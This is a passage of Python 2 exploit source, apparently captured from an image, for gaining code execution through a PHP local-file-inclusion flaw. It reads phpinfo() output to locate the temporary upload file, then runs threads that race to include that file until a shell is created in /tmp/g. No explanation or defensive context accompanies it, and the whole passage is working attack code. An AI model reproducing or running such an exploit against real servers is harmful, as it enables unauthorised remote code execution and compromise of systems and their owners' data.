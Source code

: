 ```py
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
```